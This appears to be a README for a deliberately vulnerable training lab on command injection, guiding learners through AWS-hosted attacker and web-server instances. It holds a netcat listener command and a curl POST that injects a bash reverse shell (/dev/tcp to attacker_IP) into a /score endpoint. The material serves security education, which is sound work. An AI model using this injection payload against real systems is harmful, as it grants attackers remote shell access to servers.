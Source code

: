 # 🔥 Vulnerable Labs: Shell Yeah - Let's Go in Reverse
*A deliberately insecure application for security education and demos*

---

## 💀 About the Challenge

In this exercise you'll build on your understanding of command injection, craft and execute a reverse shell payload.

### 🎯 Your Mission

1. Locate the Public IP address of your AttackerBox in the AWS Console.
2. Open a Terminal and SSH to the AttackerBox (if you haven't already).
```bash 
ssh -i ~/.ssh/keyfile.pem ubuntu@attacker_IP
```
3. Run a netcat listener: 
```bash
nc -lvp 5789
```
4. Run the following command from your laptop:
```bash
curl -X POST http://website_IP/score -d '""; bash -c "/bin/bash -i > /dev/tcp/attacker_IP/5789 0<&1 2>&1" #'
```

### 💥 Hints & Tips

Note: Don't forget to substitute:
- "website_ip" for the Public IP address of your WebServer EC2 instance
- "attacker_IP" for the Public IP address of your AttackerBox EC2 instance 

